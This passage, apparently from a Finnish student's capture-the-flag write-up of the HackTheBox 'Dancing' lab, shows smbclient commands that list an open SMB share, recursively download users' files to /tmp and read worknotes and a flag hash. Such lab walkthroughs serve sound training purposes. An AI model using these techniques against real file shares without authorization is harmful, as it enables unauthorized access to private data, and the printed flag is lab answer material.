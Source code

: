 ```bash
..             !
smb: \> ls
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021
```

> What is the command we can use within the SMB shell to download the files we find?

Tähän tehtävään oli vastauksena `get`, mutta käytin taas kerran samaa ohjetta kuin
aikaisemminkin smbclientille[^3], sitä kautta olisin itse vastannut `mget`.

```bash
smb: \> tarmode
tarmode is now full, system, hidden, noreset, noverbose
smb: \> help lcd
HELP lcd:
        [directory] change/report the local current working directory
smb: \> lcd /tmp
smb: \> recurse
smb: \> prompt
smb: \> mget
Amy.J\    James.P\
smb: \> mget ./
getting file \Amy.J\worknotes.txt of size 94 as Amy.J/worknotes.txt ...snip...
getting file \James.P\flag.txt of size 32 as James.P/flag.txt ...snip...
```

Nyt löydän Kalilta `/tmp`-hakemistosta hakemistot `Amy.J` ja `James.P`. Käydään
ne läpi.

```bash
$ ls /tmp
Amy.J
James.P
$ cd /tmp/Amy.J
$ ls
worknotes.txt
$ cat worknotes.txt
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing
$ cd ..
$ cd James.P
$ ls
flag.txt
$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664
```

Root flag löytyi ja tätä kautta Dancing pwned.


[^1]: HackTheBox, Connecting to Academy VPN, https://help.hackthebox.com/en/articles/9297532-connecting-to-academy-vpn
[^2]: Patrik Mihelson-Adamson, h1, https://github.com/p-lemonish/course-penetration-testing/blob/master/h1.md
[^3]: Learnlinux, Using smbclient, https://www.learnlinux.org.za/courses/build/net-admin/ch08s02.html
[^4]: Linux man page, smbclient(1), https://linux.die.net/man/1/smbclient
[^5]: cnotin, Nmap Github issue: Improve wsman/WinRM service fingerprinting #2119, https://github.com/nmap/nmap/issues/2119
[^6]: CNarendran Vaideeswaran, 2025, Crowdstrike, NTLM Explained, https://www.crowdstrike.com/en-us/cybersecurity-101/identity-protection/windows-ntlm/
[^7]: Kali, Tool documentation: responder usage example, https://www.kali.org/tools/responder/
[^8]: Hackplayers, evil-winrm, https://github.com/Hackplayers/evil-winrm